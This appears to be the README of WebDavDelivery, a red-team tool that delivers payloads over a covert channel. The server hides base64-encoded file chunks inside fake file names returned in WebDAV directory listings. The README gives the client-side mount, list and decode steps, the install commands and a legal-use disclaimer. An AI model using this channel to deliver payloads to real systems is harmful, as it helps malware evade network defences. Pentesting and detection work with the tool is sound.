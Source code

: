 WebDavDelivery
============
Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)


This tool is the server side of the WebDAV *PROPFIND only* requests **covert channel** used to deliver arbitrary files (*payloads, etc.*).

The tool is distributed under the terms of the [GPLv3 licence](http://www.gnu.org/copyleft/gpl.html).

Background information
----------------

Check this blog post on how and **why** I came up with the idea of using WebDAV PROPFIND only requests as a covert channel:

[Wordpress: Using WebDAV features as a covert channel](https://arno0x0x.wordpress.com/2017/09/07/using-webdav-features-as-a-covert-channel/)


Features
------------

WebDavDelivery features a pseudo WebDAV server, serving files from the `servedFiles`folder, by base64 encoding the file, then slicing it into 250 chars long chunks and deliver those chunks as a list of fake file names made of those chunks when listing a virtual directory composed of the real file name.

From the client side, the only thing you can do is browse directories and list their content. Say the WebDAV client wants to download a file named "binary_file.bin", all it has to do is
  1. Mount the share `\\webdavserver_ip_or_fqdn\binary_file.bin` (*eg on Windows:* `pushd \\webdavserver_ip_or_fqdn\binary_file.bin`)
  2. List the files in this directory (*eg on Windows:* `dir /b /a-d`)
  3. Concatenate all file names listed and perform some character sanitization (*essentially, replace '_' by '/' since this character is not suitable for a Windows file name*)
  4. Decode the base64 result --> you get the original file back


 Check the `stagers` directory as it contains some client side **examples** (*in VBA, PowerShell and JScript*) of how to use `webDavDelivery.py` to deliver various payloads. Just let your imagination tell you other fancy use cases of this tool :-).

How to use it
------------

Installation is pretty straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/WebDavDelivery WebDavDelivery`
* cd into the WebDAVDelivery folder: `cd WebDavDelivery`
* Give the execution rights to the main script: `chmod +x webDavDelivery.py`

Then put all the files you want to serve in the `servedFiles` directory.

Eventually, start the pseudo-server: `./webDavDelivery.py`.

**Options**:

You can tell webDavDelivery to serve only a single file, no matter what the directory requested by the client is:
	`./webDavDelivery.py -f some_file_path`

The `-v` flag makes webDavDelivery more verbose about the WebDAV traffic. This can help debugging.

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*